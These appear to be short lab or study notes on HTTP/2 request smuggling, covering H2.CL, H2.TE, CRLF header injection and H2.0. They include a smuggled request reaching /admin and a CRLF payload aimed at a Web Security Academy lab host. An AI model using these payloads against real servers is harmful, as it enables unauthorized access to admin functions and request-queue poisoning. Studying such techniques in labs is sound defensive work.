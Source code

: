 


#### H2.CL

```http
:method	POST
:path	/example
:authority	vulnerable-website.com
content-type	application/x-www-form-urlencoded
content-length	0
--------- data frame -------------
GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1
```


### H2.TE

Similar to content-lenght include transfer-encoding chunked header


#### H2 CRLF header injection

Smuggling a complete request in the header (key/value based on how frontend server parses and downgraded to HTTP/1.1), which leads to request queue poisoning

(Don't add \r\n at the smuggled request the backend server adds behalf on you for the end of the header)
```
foo: bar\r\n
\r\n
GET /404 HTTP/1.1\r\n
Host: 0ab100ec040a2e948148d43b00340066.web-security-academy.net
```


- the CRLF Values can be injected in custom header key/values and in any of the http2 pseudo headers like path
  
  

### H2.0

similar to Cl.0, but the backend is taken by surprise getting a post request body on certain endpoints leads to polluting the connection pipeline.

```

```